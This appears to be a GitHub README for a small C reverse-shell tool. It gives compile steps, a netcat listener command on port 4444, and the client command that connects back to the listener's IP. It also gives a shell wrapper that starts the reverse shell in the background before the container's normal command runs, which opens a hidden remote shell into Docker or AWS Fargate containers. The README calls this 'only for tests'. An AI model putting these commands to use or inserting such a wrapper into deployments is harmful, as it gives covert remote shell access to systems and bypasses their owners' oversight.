 # simple-reverse-shell
C program for reverse shell

## How to use?

### Compile
- git clone https://github.com/vizarch/simple-reverse-shell
- cd simple-reverse-shell
- gcc rshell.c -o rshell

### Run
- Listener machine (use netcat)
    - nc -lp 4444

- Client machine
    - ./rshell IP PORT
        - IP - IPv4 address of listener machine
        - PORT - port above (4444)

### Example use case

Enter into Docker container (for example: AWS Fargate)
- **only for tests**
- create script wrapper for CMD
```bash
#!/bin/sh
set -m # for job control, im not sure about this line

./rshell IP PORT & # put in background

exec CMD
```
